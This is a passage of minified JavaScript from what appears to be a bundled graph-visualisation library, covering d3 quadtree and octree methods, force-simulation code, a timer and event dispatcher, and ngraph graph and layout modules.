b=Math.sqrt(n=x);h=t-b,u=e-b,d=t+b,p=e+b,i=m.data}}return i},Nl.remove=function(t){if(isNaN(a=+this._x.call(null,t))||isNaN(o=+this._y.call(null,t)))return this;var e,n,i,r,a,o,s,l,c,h,u,d,p=this._root,f=this._x0,m=this._y0,g=this._x1,_=this._y1;if(!p)return this;if(p.length)for(;;){if((c=a>=(s=(f+g)/2))?f=s:g=s,(h=o>=(l=(m+_)/2))?m=l:_=l,e=p,!(p=p[u=h<<1|c]))return this;if(!p.length)break;(e[u+1&3]||e[u+2&3]||e[u+3&3])&&(n=e,d=u)}for(;p.data!==t;)if(i=p,!(p=p.next))return this;return(r=p.next)&&delete p.next,i?(r?i.next=r:delete i.next,this):e?(r?e[u]=r:delete e[u],(p=e[0]||e[1]||e[2]||e[3])&&p===(e[3]||e[2]||e[1]||e[0])&&!p.length&&(n?n[d]=p:this._root=p),this):(this._root=r,this)},Nl.removeAll=function(t){for(var e=0,n=t.length;e<n;++e)this.remove(t[e]);return this},Nl.root=function(){return this._root},Nl.size=function(){var t=0;return this.visit((function(e){if(!e.length)do{++t}while(e=e.next)})),t},Nl.visit=function(t){var e,n,i,r,a,o,s=[],l=this._root;for(l&&s.push(new Pl(l,this._x0,this._y0,this._x1,this._y1));e=s.pop();)if(!t(l=e.node,i=e.x0,r=e.y0,a=e.x1,o=e.y1)&&l.length){var c=(i+a)/2,h=(r+o)/2;(n=l[3])&&s.push(new Pl(n,c,h,a,o)),(n=l[2])&&s.push(new Pl(n,i,h,c,o)),(n=l[1])&&s.push(new Pl(n,c,r,a,h)),(n=l[0])&&s.push(new Pl(n,i,r,c,h))}return this},Nl.visitAfter=function(t){var e,n=[],i=[];for(this._root&&n.push(new Pl(this._root,this._x0,this._y0,this._x1,this._y1));e=n.pop();){var r=e.node;if(r.length){var a,o=e.x0,s=e.y0,l=e.x1,c=e.y1,h=(o+l)/2,u=(s+c)/2;(a=r[0])&&n.push(new Pl(a,o,s,h,u)),(a=r[1])&&n.push(new Pl(a,h,s,l,u)),(a=r[2])&&n.push(new Pl(a,o,u,h,c)),(a=r[3])&&n.push(new Pl(a,h,u,l,c))}i.push(e)}for(;e=i.pop();)t(e.node,e.x0,e.y0,e.x1,e.y1);return this},Nl.x=function(t){return arguments.length?(this._x=t,this):this._x},Nl.y=function(t){return arguments.length?(this._y=t,this):this._y};var Wl=Vl.prototype=Gl.prototype;function Xl(t){return function(){return t}}function ql(t){return 1e-6*(t()-.5)}function Yl(t){return t.index}function Kl(t,e){var n=t.get(e);if(!n)throw new Error(\"node not found: \"+e);return n}function Zl(t){var e,n,i,r,a,o,s,l=Yl,c=function(t){return 1/Math.min(a[t.source.index],a[t.target.index])},h=Xl(30),u=1;function d(i){for(var a=0,l=t.length;a<u;++a)for(var c,h,d,p,f,m=0,g=0,_=0,v=0;m<l;++m)h=(c=t[m]).source,g=(d=c.target).x+d.vx-h.x-h.vx||ql(s),r>1&&(_=d.y+d.vy-h.y-h.vy||ql(s)),r>2&&(v=d.z+d.vz-h.z-h.vz||ql(s)),g*=p=((p=Math.sqrt(g*g+_*_+v*v))-n[m])/p*i*e[m],_*=p,v*=p,d.vx-=g*(f=o[m]),r>1&&(d.vy-=_*f),r>2&&(d.vz-=v*f),h.vx+=g*(f=1-f),r>1&&(h.vy+=_*f),r>2&&(h.vz+=v*f)}function p(){if(i){var r,s,c=i.length,h=t.length,u=new Map(i.map(((t,e)=>[l(t,e,i),t])));for(r=0,a=new Array(c);r<h;++r)(s=t[r]).index=r,\"object\"!=typeof s.source&&(s.source=Kl(u,s.source)),\"object\"!=typeof s.target&&(s.target=Kl(u,s.target)),a[s.source.index]=(a[s.source.index]||0)+1,a[s.target.index]=(a[s.target.index]||0)+1;for(r=0,o=new Array(h);r<h;++r)s=t[r],o[r]=a[s.source.index]/(a[s.source.index]+a[s.target.index]);e=new Array(h),f(),n=new Array(h),m()}}function f(){if(i)for(var n=0,r=t.length;n<r;++n)e[n]=+c(t[n],n,t)}function m(){if(i)for(var e=0,r=t.length;e<r;++e)n[e]=+h(t[e],e,t)}return null==t&&(t=[]),d.initialize=function(t,...e){i=t,s=e.find((t=>\"function\"==typeof t))||Math.random,r=e.find((t=>[1,2,3].includes(t)))||2,p()},d.links=function(e){return arguments.length?(t=e,p(),d):t},d.id=function(t){return arguments.length?(l=t,d):l},d.iterations=function(t){return arguments.length?(u=+t,d):u},d.strength=function(t){return arguments.length?(c=\"function\"==typeof t?t:Xl(+t),f(),d):c},d.distance=function(t){return arguments.length?(h=\"function\"==typeof t?t:Xl(+t),m(),d):h},d}Wl.copy=function(){var t,e,n=new Gl(this._x,this._y,this._z,this._x0,this._y0,this._z0,this._x1,this._y1,this._z1),i=this._root;if(!i)return n;if(!i.length)return n._root=jl(i),n;for(t=[{source:i,target:n._root=new Array(8)}];i=t.pop();)for(var r=0;r<8;++r)(e=i.source[r])&&(e.length?t.push({source:e,target:i.target[r]=new Array(8)}):i.target[r]=jl(e));return n},Wl.add=function(t){const e=+this._x.call(null,t),n=+this._y.call(null,t),i=+this._z.call(null,t);return Fl(this.cover(e,n,i),e,n,i,t)},Wl.addAll=function(t){Array.isArray(t)||(t=Array.from(t));const e=t.length,n=new Float64Array(e),i=new Float64Array(e),r=new Float64Array(e);let a=1/0,o=1/0,s=1/0,l=-1/0,c=-1/0,h=-1/0;for(let u,d,p,f,m=0;m<e;++m)isNaN(d=+this._x.call(null,u=t[m]))||isNaN(p=+this._y.call(null,u))||isNaN(f=+this._z.call(null,u))||(n[m]=d,i[m]=p,r[m]=f,d<a&&(a=d),d>l&&(l=d),p<o&&(o=p),p>c&&(c=p),f<s&&(s=f),f>h&&(h=f));if(a>l||o>c||s>h)return this;this.cover(a,o,s).cover(l,c,h);for(let a=0;a<e;++a)Fl(this,n[a],i[a],r[a],t[a]);return this},Wl.cover=function(t,e,n){if(isNaN(t=+t)||isNaN(e=+e)||isNaN(n=+n))return this;var i=this._x0,r=this._y0,a=this._z0,o=this._x1,s=this._y1,l=this._z1;if(isNaN(i))o=(i=Math.floor(t))+1,s=(r=Math.floor(e))+1,l=(a=Math.floor(n))+1;else{for(var c,h,u=o-i||1,d=this._root;i>t||t>=o||r>e||e>=s||a>n||n>=l;)switch(h=(n<a)<<2|(e<r)<<1|t<i,(c=new Array(8))[h]=d,d=c,u*=2,h){case 0:o=i+u,s=r+u,l=a+u;break;case 1:i=o-u,s=r+u,l=a+u;break;case 2:o=i+u,r=s-u,l=a+u;break;case 3:i=o-u,r=s-u,l=a+u;break;case 4:o=i+u,s=r+u,a=l-u;break;case 5:i=o-u,s=r+u,a=l-u;break;case 6:o=i+u,r=s-u,a=l-u;break;case 7:i=o-u,r=s-u,a=l-u}this._root&&this._root.length&&(this._root=d)}return this._x0=i,this._y0=r,this._z0=a,this._x1=o,this._y1=s,this._z1=l,this},Wl.data=function(){var t=[];return this.visit((function(e){if(!e.length)do{t.push(e.data)}while(e=e.next)})),t},Wl.extent=function(t){return arguments.length?this.cover(+t[0][0],+t[0][1],+t[0][2]).cover(+t[1][0],+t[1][1],+t[1][2]):isNaN(this._x0)?void 0:[[this._x0,this._y0,this._z0],[this._x1,this._y1,this._z1]]},Wl.find=function(t,e,n,i){var r,a,o,s,l,c,h,u,d,p=this._x0,f=this._y0,m=this._z0,g=this._x1,_=this._y1,v=this._z1,y=[],x=this._root;for(x&&y.push(new kl(x,p,f,m,g,_,v)),null==i?i=1/0:(p=t-i,f=e-i,m=n-i,g=t+i,_=e+i,v=n+i,i*=i);u=y.pop();)if(!(!(x=u.node)||(a=u.x0)>g||(o=u.y0)>_||(s=u.z0)>v||(l=u.x1)<p||(c=u.y1)<f||(h=u.z1)<m))if(x.length){var b=(a+l)/2,M=(o+c)/2,S=(s+h)/2;y.push(new kl(x[7],b,M,S,l,c,h),new kl(x[6],a,M,S,b,c,h),new kl(x[5],b,o,S,l,M,h),new kl(x[4],a,o,S,b,M,h),new kl(x[3],b,M,s,l,c,S),new kl(x[2],a,M,s,b,c,S),new kl(x[1],b,o,s,l,M,S),new kl(x[0],a,o,s,b,M,S)),(d=(n>=S)<<2|(e>=M)<<1|t>=b)&&(u=y[y.length-1],y[y.length-1]=y[y.length-1-d],y[y.length-1-d]=u)}else{var E=t-+this._x.call(null,x.data),w=e-+this._y.call(null,x.data),T=n-+this._z.call(null,x.data),A=E*E+w*w+T*T;if(A<i){var C=Math.sqrt(i=A);p=t-C,f=e-C,m=n-C,g=t+C,_=e+C,v=n+C,r=x.data}}return r},Wl.remove=function(t){if(isNaN(a=+this._x.call(null,t))||isNaN(o=+this._y.call(null,t))||isNaN(s=+this._z.call(null,t)))return this;var e,n,i,r,a,o,s,l,c,h,u,d,p,f,m,g=this._root,_=this._x0,v=this._y0,y=this._z0,x=this._x1,b=this._y1,M=this._z1;if(!g)return this;if(g.length)for(;;){if((u=a>=(l=(_+x)/2))?_=l:x=l,(d=o>=(c=(v+b)/2))?v=c:b=c,(p=s>=(h=(y+M)/2))?y=h:M=h,e=g,!(g=g[f=p<<2|d<<1|u]))return this;if(!g.length)break;(e[f+1&7]||e[f+2&7]||e[f+3&7]||e[f+4&7]||e[f+5&7]||e[f+6&7]||e[f+7&7])&&(n=e,m=f)}for(;g.data!==t;)if(i=g,!(g=g.next))return this;return(r=g.next)&&delete g.next,i?(r?i.next=r:delete i.next,this):e?(r?e[f]=r:delete e[f],(g=e[0]||e[1]||e[2]||e[3]||e[4]||e[5]||e[6]||e[7])&&g===(e[7]||e[6]||e[5]||e[4]||e[3]||e[2]||e[1]||e[0])&&!g.length&&(n?n[m]=g:this._root=g),this):(this._root=r,this)},Wl.removeAll=function(t){for(var e=0,n=t.length;e<n;++e)this.remove(t[e]);return this},Wl.root=function(){return this._root},Wl.size=function(){var t=0;return this.visit((function(e){if(!e.length)do{++t}while(e=e.next)})),t},Wl.visit=function(t){var e,n,i,r,a,o,s,l,c=[],h=this._root;for(h&&c.push(new kl(h,this._x0,this._y0,this._z0,this._x1,this._y1,this._z1));e=c.pop();)if(!t(h=e.node,i=e.x0,r=e.y0,a=e.z0,o=e.x1,s=e.y1,l=e.z1)&&h.length){var u=(i+o)/2,d=(r+s)/2,p=(a+l)/2;(n=h[7])&&c.push(new kl(n,u,d,p,o,s,l)),(n=h[6])&&c.push(new kl(n,i,d,p,u,s,l)),(n=h[5])&&c.push(new kl(n,u,r,p,o,d,l)),(n=h[4])&&c.push(new kl(n,i,r,p,u,d,l)),(n=h[3])&&c.push(new kl(n,u,d,a,o,s,p)),(n=h[2])&&c.push(new kl(n,i,d,a,u,s,p)),(n=h[1])&&c.push(new kl(n,u,r,a,o,d,p)),(n=h[0])&&c.push(new kl(n,i,r,a,u,d,p))}return this},Wl.visitAfter=function(t){var e,n=[],i=[];for(this._root&&n.push(new kl(this._root,this._x0,this._y0,this._z0,this._x1,this._y1,this._z1));e=n.pop();){var r=e.node;if(r.length){var a,o=e.x0,s=e.y0,l=e.z0,c=e.x1,h=e.y1,u=e.z1,d=(o+c)/2,p=(s+h)/2,f=(l+u)/2;(a=r[0])&&n.push(new kl(a,o,s,l,d,p,f)),(a=r[1])&&n.push(new kl(a,d,s,l,c,p,f)),(a=r[2])&&n.push(new kl(a,o,p,l,d,h,f)),(a=r[3])&&n.push(new kl(a,d,p,l,c,h,f)),(a=r[4])&&n.push(new kl(a,o,s,f,d,p,u)),(a=r[5])&&n.push(new kl(a,d,s,f,c,p,u)),(a=r[6])&&n.push(new kl(a,o,p,f,d,h,u)),(a=r[7])&&n.push(new kl(a,d,p,f,c,h,u))}i.push(e)}for(;e=i.pop();)t(e.node,e.x0,e.y0,e.z0,e.x1,e.y1,e.z1);return this},Wl.x=function(t){return arguments.length?(this._x=t,this):this._x},Wl.y=function(t){return arguments.length?(this._y=t,this):this._y},Wl.z=function(t){return arguments.length?(this._z=t,this):this._z};var $l={value:()=>{}};function Jl(){for(var t,e=0,n=arguments.length,i={};e<n;++e){if(!(t=arguments[e]+\"\")||t in i||/[\\s.]/.test(t))throw new Error(\"illegal type: \"+t);i[t]=[]}return new Ql(i)}function Ql(t){this._=t}function tc(t,e){for(var n,i=0,r=t.length;i<r;++i)if((n=t[i]).name===e)return n.value}function ec(t,e,n){for(var i=0,r=t.length;i<r;++i)if(t[i].name===e){t[i]=$l,t=t.slice(0,i).concat(t.slice(i+1));break}return null!=n&&t.push({name:e,value:n}),t}Ql.prototype=Jl.prototype={constructor:Ql,on:function(t,e){var n,i,r=this._,a=(i=r,(t+\"\").trim().split(/^|\\s+/).map((function(t){var e=\"\",n=t.indexOf(\".\");if(n>=0&&(e=t.slice(n+1),t=t.slice(0,n)),t&&!i.hasOwnProperty(t))throw new Error(\"unknown type: \"+t);return{type:t,name:e}}))),o=-1,s=a.length;if(!(arguments.length<2)){if(null!=e&&\"function\"!=typeof e)throw new Error(\"invalid callback: \"+e);for(;++o<s;)if(n=(t=a[o]).type)r[n]=ec(r[n],t.name,e);else if(null==e)for(n in r)r[n]=ec(r[n],t.name,null);return this}for(;++o<s;)if((n=(t=a[o]).type)&&(n=tc(r[n],t.name)))return n},copy:function(){var t={},e=this._;for(var n in e)t[n]=e[n].slice();return new Ql(t)},call:function(t,e){if((n=arguments.length-2)>0)for(var n,i,r=new Array(n),a=0;a<n;++a)r[a]=arguments[a+2];if(!this._.hasOwnProperty(t))throw new Error(\"unknown type: \"+t);for(a=0,n=(i=this._[t]).length;a<n;++a)i[a].value.apply(e,r)},apply:function(t,e,n){if(!this._.hasOwnProperty(t))throw new Error(\"unknown type: \"+t);for(var i=this._[t],r=0,a=i.length;r<a;++r)i[r].value.apply(e,n)}};var nc,ic,rc=0,ac=0,oc=0,sc=0,lc=0,cc=0,hc=\"object\"==typeof performance&&performance.now?performance:Date,uc=\"object\"==typeof window&&window.requestAnimationFrame?window.requestAnimationFrame.bind(window):function(t){setTimeout(t,17)};function dc(){return lc||(uc(pc),lc=hc.now()+cc)}function pc(){lc=0}function fc(){this._call=this._time=this._next=null}function mc(t,e,n){var i=new fc;return i.restart(t,e,n),i}function gc(){lc=(sc=hc.now())+cc,rc=ac=0;try{!function(){dc(),++rc;for(var t,e=nc;e;)(t=lc-e._time)>=0&&e._call.call(void 0,t),e=e._next;--rc}()}finally{rc=0,function(){var t,e,n=nc,i=1/0;for(;n;)n._call?(i>n._time&&(i=n._time),t=n,n=n._next):(e=n._next,n._next=null,n=t?t._next=e:nc=e);ic=t,vc(i)}(),lc=0}}function _c(){var t=hc.now(),e=t-sc;e>1e3&&(cc-=e,sc=t)}function vc(t){rc||(ac&&(ac=clearTimeout(ac)),t-lc>24?(t<1/0&&(ac=setTimeout(gc,t-hc.now()-cc)),oc&&(oc=clearInterval(oc))):(oc||(sc=hc.now(),oc=setInterval(_c,1e3)),rc=1,uc(gc)))}fc.prototype=mc.prototype={constructor:fc,restart:function(t,e,n){if(\"function\"!=typeof t)throw new TypeError(\"callback is not a function\");n=(null==n?dc():+n)+(null==e?0:+e),this._next||ic===this||(ic?ic._next=this:nc=this,ic=this),this._call=t,this._time=n,vc()},stop:function(){this._call&&(this._call=null,this._time=1/0,vc())}};const yc=4294967296;function xc(t){return t.x}function bc(t){return t.y}function Mc(t){return t.z}var Sc,Ec,wc,Tc,Ac=Math.PI*(3-Math.sqrt(5)),Cc=20*Math.PI/(9+Math.sqrt(221));function Rc(t,e){e=e||2;var n,i=Math.min(3,Math.max(1,Math.round(e))),r=1,a=.001,o=1-Math.pow(a,1/300),s=0,l=.6,c=new Map,h=mc(p),u=Jl(\"tick\",\"end\"),d=function(){let t=1;return()=>(t=(1664525*t+1013904223)%yc)/yc}();function p(){f(),u.call(\"tick\",n),r<a&&(h.stop(),u.call(\"end\",n))}function f(e){var a,h,u=t.length;void 0===e&&(e=1);for(var d=0;d<e;++d)for(r+=(s-r)*o,c.forEach((function(t){t(r)})),a=0;a<u;++a)null==(h=t[a]).fx?h.x+=h.vx*=l:(h.x=h.fx,h.vx=0),i>1&&(null==h.fy?h.y+=h.vy*=l:(h.y=h.fy,h.vy=0)),i>2&&(null==h.fz?h.z+=h.vz*=l:(h.z=h.fz,h.vz=0));return n}function m(){for(var e,n=0,r=t.length;n<r;++n){if((e=t[n]).index=n,null!=e.fx&&(e.x=e.fx),null!=e.fy&&(e.y=e.fy),null!=e.fz&&(e.z=e.fz),isNaN(e.x)||i>1&&isNaN(e.y)||i>2&&isNaN(e.z)){var a=10*(i>2?Math.cbrt(.5+n):i>1?Math.sqrt(.5+n):n),o=n*Ac,s=n*Cc;1===i?e.x=a:2===i?(e.x=a*Math.cos(o),e.y=a*Math.sin(o)):(e.x=a*Math.sin(o)*Math.cos(s),e.y=a*Math.cos(o),e.z=a*Math.sin(o)*Math.sin(s))}(isNaN(e.vx)||i>1&&isNaN(e.vy)||i>2&&isNaN(e.vz))&&(e.vx=0,i>1&&(e.vy=0),i>2&&(e.vz=0))}}function g(e){return e.initialize&&e.initialize(t,d,i),e}return null==t&&(t=[]),m(),n={tick:f,restart:function(){return h.restart(p),n},stop:function(){return h.stop(),n},numDimensions:function(t){return arguments.length?(i=Math.min(3,Math.max(1,Math.round(t))),c.forEach(g),n):i},nodes:function(e){return arguments.length?(t=e,m(),c.forEach(g),n):t},alpha:function(t){return arguments.length?(r=+t,n):r},alphaMin:function(t){return arguments.length?(a=+t,n):a},alphaDecay:function(t){return arguments.length?(o=+t,n):+o},alphaTarget:function(t){return arguments.length?(s=+t,n):s},velocityDecay:function(t){return arguments.length?(l=1-t,n):1-l},randomSource:function(t){return arguments.length?(d=t,c.forEach(g),n):d},force:function(t,e){return arguments.length>1?(null==e?c.delete(t):c.set(t,g(e)),n):c.get(t)},find:function(){var e,n,r,a,o,s,l=Array.prototype.slice.call(arguments),c=l.shift()||0,h=(i>1?l.shift():null)||0,u=(i>2?l.shift():null)||0,d=l.shift()||1/0,p=0,f=t.length;for(d*=d,p=0;p<f;++p)(a=(e=c-(o=t[p]).x)*e+(n=h-(o.y||0))*n+(r=u-(o.z||0))*r)<d&&(s=o,d=a);return s},on:function(t,e){return arguments.length>1?(u.on(t,e),n):u.on(t)}}}function Pc(){var t,e,n,i,r,a,o=Xl(-30),s=1,l=1/0,c=.81;function h(i){var a,o=t.length,s=(1===e?wl(t,xc):2===e?Il(t,xc,bc):3===e?Vl(t,xc,bc,Mc):null).visitAfter(d);for(r=i,a=0;a<o;++a)n=t[a],s.visit(p)}function u(){if(t){var e,n,i=t.length;for(a=new Array(i),e=0;e<i;++e)n=t[e],a[n.index]=+o(n,e,t)}}function d(t){var n,i,r,o,s,l,c=0,h=0,u=t.length;if(u){for(r=o=s=l=0;l<u;++l)(n=t[l])&&(i=Math.abs(n.value))&&(c+=n.value,h+=i,r+=i*(n.x||0),o+=i*(n.y||0),s+=i*(n.z||0));c*=Math.sqrt(4/u),t.x=r/h,e>1&&(t.y=o/h),e>2&&(t.z=s/h)}else{(n=t).x=n.data.x,e>1&&(n.y=n.data.y),e>2&&(n.z=n.data.z);do{c+=a[n.data.index]}while(n=n.next)}t.value=c}function p(t,o,h,u,d){if(!t.value)return!0;var p=[h,u,d][e-1],f=t.x-n.x,m=e>1?t.y-n.y:0,g=e>2?t.z-n.z:0,_=p-o,v=f*f+m*m+g*g;if(_*_/c<v)return v<l&&(0===f&&(v+=(f=ql(i))*f),e>1&&0===m&&(v+=(m=ql(i))*m),e>2&&0===g&&(v+=(g=ql(i))*g),v<s&&(v=Math.sqrt(s*v)),n.vx+=f*t.value*r/v,e>1&&(n.vy+=m*t.value*r/v),e>2&&(n.vz+=g*t.value*r/v)),!0;if(!(t.length||v>=l)){(t.data!==n||t.next)&&(0===f&&(v+=(f=ql(i))*f),e>1&&0===m&&(v+=(m=ql(i))*m),e>2&&0===g&&(v+=(g=ql(i))*g),v<s&&(v=Math.sqrt(s*v)));do{t.data!==n&&(_=a[t.data.index]*r/v,n.vx+=f*_,e>1&&(n.vy+=m*_),e>2&&(n.vz+=g*_))}while(t=t.next)}}return h.initialize=function(n,...r){t=n,i=r.find((t=>\"function\"==typeof t))||Math.random,e=r.find((t=>[1,2,3].includes(t)))||2,u()},h.strength=function(t){return arguments.length?(o=\"function\"==typeof t?t:Xl(+t),u(),h):o},h.distanceMin=function(t){return arguments.length?(s=t*t,h):Math.sqrt(s)},h.distanceMax=function(t){return arguments.length?(l=t*t,h):Math.sqrt(l)},h.theta=function(t){return arguments.length?(c=t*t,h):Math.sqrt(c)},h}function Lc(t){return t&&t.__esModule&&Object.prototype.hasOwnProperty.call(t,\"default\")?t.default:t}function Dc(){if(Ec)return Sc;return Ec=1,Sc=function(t){!function(t){if(!t)throw new Error(\"Eventify cannot use falsy object as events subject\");for(var e=[\"on\",\"fire\",\"off\"],n=0;n<e.length;++n)if(t.hasOwnProperty(e[n]))throw new Error(\"Subject cannot be eventified, since it already has property '\"+e[n]+\"'\")}(t);var e=function(t){var e=Object.create(null);return{on:function(n,i,r){if(\"function\"!=typeof i)throw new Error(\"callback is expected to be a function\");var a=e[n];return a||(a=e[n]=[]),a.push({callback:i,ctx:r}),t},off:function(n,i){if(void 0===n)return e=Object.create(null),t;if(e[n])if(\"function\"!=typeof i)delete e[n];else for(var r=e[n],a=0;a<r.length;++a)r[a].callback===i&&r.splice(a,1);return t},fire:function(n){var i,r=e[n];if(!r)return t;arguments.length>1&&(i=Array.prototype.splice.call(arguments,1));for(var a=0;a<r.length;++a){var o=r[a];o.callback.apply(o.ctx,i)}return t}}}(t);return t.on=e.on,t.off=e.off,t.fire=e.fire,t},Sc}var Ic,Oc,Uc,Nc,Fc,kc=function(){if(Tc)return wc;Tc=1,wc=function(a){\"uniqueLinkId\"in(a=a||{})&&(console.warn(\"ngraph.graph: Starting from version 0.14 `uniqueLinkId` is deprecated.\\nUse `multigraph` option instead\\n\",\"\\n\",\"Note: there is also change in default behavior: From now on each graph\\nis considered to be not a multigraph by default (each edge is unique).\"),a.multigraph=a.uniqueLinkId);void 0===a.multigraph&&(a.multigraph=!1);if(\"function\"!=typeof Map)throw new Error(\"ngraph.graph requires `Map` to be defined. Please polyfill it before using ngraph\");var o=new Map,s=new Map,l={},c=0,h=a.multigraph?function(t,e,n){var a=r(t,e),o=l.hasOwnProperty(a);if(o||w(t,e)){o||(l[a]=0);var s=\"@\"+ ++l[a];a=r(t+s,e+s)}return new i(t,e,n,a)}:function(t,e,n){var a=r(t,e),o=s.get(a);if(o)return o.data=n,o;return new i(t,e,n,a)},u=[],d=T,p=T,f=T,m=T,g={version:20,addNode:y,addLink:function(t,e,i){f();var r=x(t)||y(t),a=x(e)||y(e),o=h(t,e,i),l=s.has(o.id);s.set(o.id,o),n(r,o),t!==e&&n(a,o);return d(o,l?\"update\":\"add\"),m(),o},removeLink:function(t,e){void 0!==e&&(t=w(t,e));return E(t)},removeNode:b,getNode:x,getNodeCount:M,getLinkCount:S,getEdgeCount:S,getLinksCount:S,getNodesCount:M,getLinks:function(t){var e=x(t);return e?e.links:null},forEachNode:R,forEachLinkedNode:function(t,e,n){var i=x(t);if(i&&i.links&&\"function\"==typeof e)return n?function(t,e,n){var i=t.values(),r=i.next();for(;!r.done;){var a=r.value;if(a.fromId===e&&n(o.get(a.toId),a))return!0;r=i.next()}}(i.links,t,e):function(t,e,n){var i=t.values(),r=i.next();for(;!r.done;){var a=r.value,s=a.fromId===e?a.toId:a.fromId;if(n(o.get(s),a))return!0;r=i.next()}}(i.links,t,e)},forEachLink:function(t){if(\"function\"==typeof t)for(var e=s.values(),n=e.next();!n.done;){if(t(n.value))return!0;n=e.next()}},beginUpdate:f,endUpdate:m,clear:function(){f(),R((function(t){b(t.id)})),m()},hasLink:w,hasNode:x,getLink:w};return t(g),function(){var t=g.on;function e(){return g.beginUpdate=f=A,g.endUpdate=m=C,d=_,p=v,g.on=t,t.apply(g,arguments)}g.on=e}(),g;function _(t,e){u.push({link:t,changeType:e})}function v(t,e){u.push({node:t,changeType:e})}function y(t,n){if(void 0===t)throw new Error(\"Invalid node identifier\");f();var i=x(t);return i?(i.data=n,p(i,\"update\")):(i=new e(t,n),p(i,\"add\")),o.set(t,i),m(),i}function x(t){return o.get(t)}function b(t){var e=x(t);if(!e)return!1;f();var n=e.links;return n&&(n.forEach(E),e.links=null),o.delete(t),p(e,\"remove\"),m(),!0}function M(){return o.size}function S(){return s.size}function E(t){if(!t)return!1;if(!s.get(t.id))return!1;f(),s.delete(t.id);var e=x(t.fromId),n=x(t.toId);return e&&e.links.delete(t),n&&n.links.delete(t),d(t,\"remove\"),m(),!0}function w(t,e){if(void 0!==t&&void 0!==e)return s.get(r(t,e))}function T(){}function A(){c+=1}function C(){0===(c-=1)&&u.length>0&&(g.fire(\"changed\",u),u.length=0)}function R(t){if(\"function\"!=typeof t)throw new Error(\"Function is expected to iterate over graph nodes. You passed \"+t);for(var e=o.values(),n=e.next();!n.done;){if(t(n.value))return!0;n=e.next()}}};var t=Dc();function e(t,e){this.id=t,this.links=null,this.data=e}function n(t,e){t.links?t.links.add(e):t.links=new Set([e])}function i(t,e,n,i){this.fromId=t,this.toId=e,this.data=n,this.id=i}function r(t,e){return t.toString()+\"👉 \"+e.toString()}return wc}(),zc=Lc(kc),Bc={exports:{}},Hc={exports:{}};function Vc(){return Oc||(Oc=1,Ic=function(t){return 0===t?\"x\":1===t?\"y\":2===t?\"z\":\"c\"+(t+1)}),Ic}function Gc(){if(Nc)return Uc;Nc=1;const t=Vc();return Uc=function(e){return function(n,i){let r=i&&i.indent||0,a=i&&void 0!==i.join?i.join:\"\\n\",o=Array(r+1).join(\" \"),s=[];for(let i=0;i<e;++i){let e=t(i),r=0===i?\"\":o;s.push(r+n.replace(/{var}/g,e))}return s.join(a)}}}var jc,Wc={exports:{}};var Xc,qc={exports:{}};var Yc,Kc={exports:{}};var Zc,$c={exports:{}};var Jc,Qc,th,eh,nh,ih={exports:{}};var rh,ah,oh,sh,lh={exports:{}};function ch(){if(oh)return ah;oh=1,ah=function(l){var c=th?Qc:(th=1,Qc=function(t,e,n,i){this.from=t,this.to=e,this.length=n,this.coefficient=i}),h=(nh||(nh=1,eh=function t(e,n){var i;if(e||(e={}),n)for(i in n)if(n.hasOwnProperty(i)){var r=e.hasOwnProperty(i),a=typeof n[i];r&&typeof e[i]===a?\"object\"===a&&(e[i]=t(e[i],n[i])):e[i]=n[i]}return e}),eh),u=Dc();if(l){if(void 0!==l.springCoeff)throw new Error(\"springCoeff was renamed to springCoefficient\");if(void 0!==l.dragCoeff)throw new Error(\"dragCoeff was renamed to dragCoefficient\")}l=h(l,{springLength:10,springCoefficient:.8,gravity:-12,theta:.8,dragCoefficient:.9,timeStep:.5,adaptiveTimeStepWeight:0,dimensions:2,debug:!1});var d=o[l.dimensions];if(!d){var p=l.dimensions;d={Body:t(p,l.debug),createQuadTree:e(p),createBounds:n(p),createDragForce:i(p),createSpringForce:r(p),integrate:a(p)},o[p]=d}var f=d.Body,m=d.createQuadTree,g=d.createBounds,_=d.createDragForce,v=d.createSpringForce,y=d.integrate,x=function(){if(rh)return lh.exports;function t(t){return new e(\"number\"==typeof t?t:+new Date)}function e(t){this.seed=t}function n(t){return Math.sqrt(2*Math.PI/t)*Math.pow(1/Math.E*(t+1/(12*t-1/(10*t))),t)}function i(){var t=this.seed;return t=4294967295&(3042594569^(t=4251993797+(t=4294967295&(3550635116+(t=374761393+(t=4294967295&(3345072700^(t=t+2127912214+(t<<12)&4294967295)^t>>>19))+(t<<5)&4294967295)^t<<9))+(t<<3)&4294967295)^t>>>16),this.seed=t,(268435455&t)/268435456}return rh=1,lh.exports=t,lh.exports.random=t,lh.exports.randomIterator=function(e,n){var i=n||t();if(\"function\"!=typeof i.next)throw new Error(\"customRandom does not match expected API: next() function is missing\");return{forEach:function(t){var n,r,a;for(n=e.length-1;n>0;--n)r=i.next(n+1),a=e[r],e[r]=e[n],e[n]=a,t(a);e.length&&t(e[0])},shuffle:function(){var t,n,r;for(t=e.length-1;t>0;--t)n=i.next(t+1),r=e[n],e[n]=e[t],e[t]=r;return e}}},e.prototype.next=function(t){return Math.floor(this.nextDouble()*t)},e.prototype.nextDouble=i,e.prototype.uniform=i,e.prototype.gaussian=function(){var t,e,n;do{t=(e=2*this.nextDouble()-1)*e+(n=2*this.nextDouble()-1)*n}while(t>=1||0===t);return e*Math.sqrt(-2*Math.log(t)/t)},e.prototype.levy=function(){var t=1.5,e=Math.pow(n(2.5)*Math.sin(Math.PI*t/2)/(n(1.25)*t*Math.pow(2,.25)),1/t);return this.gaussian()*e/Math.pow(Math.abs(this.gaussian()),1/t)},lh.exports}().random(42),b=[],M=[],S=m(l,x),E=g(b,l,x),w=v(l,x),T=_(l),A=[],C=new Map,R=0;D(\"nbody\",(function(){if(0===b.length)return;S.insertBodies(b);var t=b.length;for(;t--;){var e=b[t];e.isPinned||(e.reset(),S.updateBodyForce(e),T.update(e))}})),D(\"spring\",(function(){var t=M.length;for(;t--;)w.update(M[t])}));var P={bodies:b,quadTree:S,springs:M,settings:l,addForce:D,removeForce:function(t){var e=A.indexOf(C.get(t));if(e<0)return;A.splice(e,1),C.delete(t)},getForces:function(){return C},step:function(){for(var t=0;t<A.length;++t)A[t](R);var e=y(b,l.timeStep,l.adaptiveTimeStepWeight);return R+=1,e},addBody:function(t){if(!t)throw new Error(\"Body is required\");return b.push(t),t},addBodyAt:function(t){if(!t)throw new Error(\"Body position is required\");var e=(t=>new f(t))(t);return b.push(e),e},removeBody:function(t){if(t){var e=b.indexOf(t);if(!(e<0))return b.splice(e,1),0===b.length&&E.reset(),!0}},addSpring:function(t,e,n,i){if(!t||!e)throw new Error(\"Cannot add null spring to force simulator\");\"number\"!=typeof n&&(n=-1);var r=new c(t,e,n,i>=0?i:-1);return 